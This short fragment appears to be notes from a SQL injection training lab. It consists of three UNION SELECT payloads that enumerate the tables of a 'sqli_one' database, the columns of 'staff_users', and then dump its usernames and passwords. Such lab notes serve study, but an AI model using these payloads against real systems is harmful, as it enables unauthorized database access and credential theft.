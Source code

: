 0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'

0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'

0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users